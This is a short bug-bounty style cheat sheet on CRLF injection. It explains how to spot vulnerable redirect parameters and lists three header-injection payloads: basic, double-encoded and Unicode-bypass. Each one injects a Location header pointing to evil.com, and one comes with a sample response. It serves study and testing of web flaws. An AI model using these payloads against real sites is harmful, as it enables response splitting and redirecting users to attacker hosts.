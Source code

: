 # CRLF Injection

## Introduction
A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Where to find
It can be found anywhere, always check the request and response. Try to search for parameters that lead to redirects, you can see the response is (301, 302, 303, 307, 308).

## How to exploit
1. Basic payload
```
https://example.com/?lang=en%0D%0ALocation:%20https://evil.com/

### Response:
HTTP/1.1 200 OK
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Set-Cookie: language=en
Location: https://evil.com/
```

2. Double encode
```
https://example.com/?lang=en%250D%250ALocation:%20https://evil.com/
```

3. Bypass unicode
```
https://example.com/?lang=en%E5%98%8A%E5%98%8DLocation:%20https://evil.com/
```

## References
* [@filedescriptor](https://blog.innerht.ml/twitter-crlf-injection/)
* [EdOverflow](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)
